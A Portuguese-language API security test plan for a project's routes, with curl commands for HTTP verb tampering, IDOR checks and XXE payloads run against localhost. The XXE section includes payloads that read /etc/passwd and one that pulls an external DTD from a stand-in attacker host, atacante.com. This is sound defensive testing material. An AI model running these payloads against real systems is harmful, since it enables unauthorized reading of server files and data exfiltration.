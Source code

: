 # Relatório 2 – Roteiro de Testes de Segurança em APIs

## Introdução

Este relatório apresenta um roteiro detalhado para a realização de testes de segurança nas principais rotas de API do projeto, com foco em três tipos de vulnerabilidades: HTTP Verb Tampering, IDOR (Insecure Direct Object Reference) e XXE (XML External Entity). As recomendações e observações de segurança também estão incluídas para garantir a condução responsável dos testes.

## Principais Rotas de API

O projeto possui as seguintes rotas de API principais:

- `/api/v1/rasa-conversations/`
- `/api/v1/opinion-component/`
- `/api/v1/conversations/`
- `/api/v1/comments/`
- `/api/v1/votes/`
- `/api/v1/clusterizations/`
- `/api/v1/profiles/`
- `/api/v1/boards/`
- `/api/v1/users/`
- `/api/v1/` (autenticação)

## 1. HTTP Verb Tampering

Teste o comportamento dos endpoints utilizando diferentes métodos HTTP:

```bash
# Teste de Autenticação
curl -X OPTIONS http://localhost:8000/api/v1/token/
curl -X PUT http://localhost:8000/api/v1/token/
curl -X DELETE http://localhost:8000/api/v1/token/
curl -X PATCH http://localhost:8000/api/v1/token/
curl -X HEAD http://localhost:8000/api/v1/token/

# Teste de Usuários
curl -X OPTIONS http://localhost:8000/api/v1/users/
curl -X PUT http://localhost:8000/api/v1/users/1/
curl -X DELETE http://localhost:8000/api/v1/users/1/
curl -X PATCH http://localhost:8000/api/v1/users/1/
curl -X HEAD http://localhost:8000/api/v1/users/1/

# Teste de Perfis
curl -X OPTIONS http://localhost:8000/api/v1/profiles/
curl -X PUT http://localhost:8000/api/v1/profiles/1/
curl -X DELETE http://localhost:8000/api/v1/profiles/1/
curl -X PATCH http://localhost:8000/api/v1/profiles/1/
curl -X HEAD http://localhost:8000/api/v1/profiles/1/

# Teste de Conversas
curl -X OPTIONS http://localhost:8000/api/v1/conversations/
curl -X PUT http://localhost:8000/api/v1/conversations/1/
curl -X DELETE http://localhost:8000/api/v1/conversations/1/
curl -X PATCH http://localhost:8000/api/v1/conversations/1/
curl -X HEAD http://localhost:8000/api/v1/conversations/1/
```

## 2. IDOR (Insecure Direct Object Reference)

Teste o acesso e modificação de recursos de outros usuários:

```bash
# Teste de Usuários
curl -X GET http://localhost:8000/api/v1/users/2/ -H "Authorization: Bearer seu_token"

# Teste de Perfis
curl -X PUT http://localhost:8000/api/v1/profiles/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"phone_number": "123456789"}'

# Teste de Conversas
curl -X GET http://localhost:8000/api/v1/conversations/2/ -H "Authorization: Bearer seu_token"

# Teste de Comentários
curl -X PUT http://localhost:8000/api/v1/comments/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"content": "comentário modificado"}'

# Teste de Votos
curl -X PUT http://localhost:8000/api/v1/votes/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"choice": "agree"}'

# Teste de Clusterizações
curl -X GET http://localhost:8000/api/v1/clusterizations/2/ -H "Authorization: Bearer seu_token"

# Teste de Quadros
curl -X PUT http://localhost:8000/api/v1/boards/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"title": "quadro modificado"}'
```

## 3. XXE (XML External Entity)

Teste endpoints que aceitam XML para identificar possíveis vulnerabilidades XXE:

```bash
# Criar arquivo XML malicioso
cat > payload.xml << 'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
EOF

# Teste de Conversas
curl -X POST http://localhost:8000/api/v1/conversations/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d @payload.xml

# Teste de Comentários
curl -X POST http://localhost:8000/api/v1/comments/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d @payload.xml

# Criar arquivo XML com referência a entidade externa
cat > external.xml << 'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://atacante.com/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
EOF

# Teste de Parameter Pollution
curl -X POST http://localhost:8000/api/v1/conversations/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'
```
